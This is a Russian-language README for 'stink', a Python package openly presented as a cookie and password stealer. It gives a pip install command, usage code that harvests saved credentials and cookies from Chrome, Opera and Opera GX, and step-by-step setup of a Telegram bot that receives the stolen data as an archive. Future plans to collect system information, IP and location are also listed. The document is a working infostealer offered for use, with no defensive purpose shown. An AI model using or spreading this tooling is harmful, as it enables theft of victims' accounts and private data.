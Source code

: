 # stink

Стиллер куки и паролей с отправкой в Telegram.

## Описание
`stink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
  * [Кастомный](#Кастомный)
    * [Chrome](#Chrome)
    * [Opera](#Opera)
    * [Opera GX](#Opera)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)
  * [Получение айди](#Получение-айди)

### Текущие возможности
1. Сбор куки и паролей следующих браузеров: Chrome, Opera, Opera GX.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других браузеров.
2. Сбор информации о системе.
3. Сбор айпи и местоположения.
 
## Установка

Установить последнюю версию можно командой:
```
pip install stink==0.0.2
```

## Пример использования
### Стандартный
```python
from stink.multistealer import Stealer

stealer = Stealer(token="YOUR_TOKEN", user_id=YOUR_ID)
stealer.run()
```
### Кастомный
#### Chrome
```python
from os import path, mkdir

from stink.browsers.chrome import Chrome
from getpass import getuser

storage_path = f"C:/Users/{getuser()}/AppData/"
storage_folder = "files/"

if not path.exists(storage_path + storage_folder):

    mkdir(storage_path + storage_folder)

stealer = Chrome(storage_path=storage_path, storage_folder=storage_folder)
stealer.run()
```
#### Opera
```python
from os import path, mkdir

from stink.browsers.opera_default import Opera_Default
from getpass import getuser

storage_path = f"C:/Users/{getuser()}/AppData/"
storage_folder = "files/"

if not path.exists(storage_path + storage_folder):

    mkdir(storage_path + storage_folder)

stealer = Opera_Default(storage_path=storage_path, storage_folder=storage_folder)
stealer.run()
```
#### Opera GX
```python
from os import path, mkdir

from stink.browsers.opera_gx import Opera_GX
from getpass import getuser

storage_path = f"C:/Users/{getuser()}/AppData/"
storage_folder = "files/"

if not path.exists(storage_path + storage_folder):

    mkdir(storage_path + storage_folder)

stealer = Opera_GX(storage_path=storage_path, storage_folder=storage_folder)
stealer.run()
```
## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду ```/newbot```.

<p align="left">
  <a href="">
    <img src="docs/_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Прописываем название бота с прикладкой ```_bot``` в конце.

<p align="left">
  <a href="">
    <img src="docs/_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Полученный токен вставляем в поле ```"YOUR_TOKEN"``` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду ```/start```.

<p align="left">
  <a href="">
    <img src="docs/_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Полученный айди вставляем в поле ```YOUR_ID``` в скрипте.
